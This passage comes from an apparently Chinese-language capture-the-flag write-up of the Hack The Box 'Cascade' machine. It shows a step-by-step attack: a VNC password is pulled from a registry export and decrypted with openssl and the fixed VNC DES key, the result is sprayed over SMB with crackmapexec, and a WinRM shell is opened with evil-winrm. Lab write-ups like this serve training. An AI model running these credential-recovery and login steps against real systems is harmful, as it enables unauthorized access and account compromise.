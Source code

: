 "PollingInterval"=dword:000003e8
"AllowLoopback"=dword:00000000
"VideoRecognitionInterval"=dword:00000bb8
"GrabTransparentWindows"=dword:00000001
"SaveLogToAllUsersPath"=dword:00000000
"RunControlInterface"=dword:00000001
"IdleTimeout"=dword:00000000
"VideoClasses"=""
"VideoRects"=""

```
留意暴露出了一个密码字段
```
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
```

整理成一个16进制串```6bcf2a4b6e5aca0f```

关于如何破解vnc密码，参考[这个](https://github.com/frizb/PasswordDecrypts)方法
```
┌──(root💀kali)-[~/htb/Cascade]
└─# echo -n 6bcf2a4b6e5aca0f | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv
00000000  73 54 33 33 33 76 65 32                           |sT333ve2|
00000008

```

得到了一个明文密码：```sT333ve2```

再次哈希喷洒
```
┌──(root💀kali)-[~/htb/Cascade]
└─# crackmapexec smb 10.10.10.182  -u user.txt -p 'sT333ve2'
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\CascGuest:sT333ve2 STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\arksvc:sT333ve2 STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\s.smith:sT333ve2 

```

得到一组凭据：```s.smith:sT333ve2```
 

使用evil-winrm登录，拿到初始shell
```
┌──(root💀kali)-[~/htb/Cascade]
└─# evil-winrm -i 10.10.10.182 -u 's.smith' -p 'sT333ve2'                                                                                                                                                                               1 ⨯
Evil-WinRM shell v3.2
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\s.smith\Documents> whoami
cascade\s.smith
